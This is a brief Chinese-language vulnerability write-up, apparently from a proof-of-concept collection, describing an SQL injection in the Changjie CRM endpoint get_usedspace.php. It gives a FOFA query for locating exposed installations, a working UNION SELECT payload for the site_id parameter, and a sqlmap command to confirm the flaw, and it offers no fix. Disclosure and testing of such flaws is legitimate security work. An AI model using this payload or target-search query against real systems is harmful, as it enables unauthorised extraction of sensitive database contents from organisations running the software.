


# 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

```
畅捷CRM
```

## FOFA

```
title="畅捷CRM"
```

## 漏洞复现

登录页面



验证POC

```
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```



使用Sqlmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```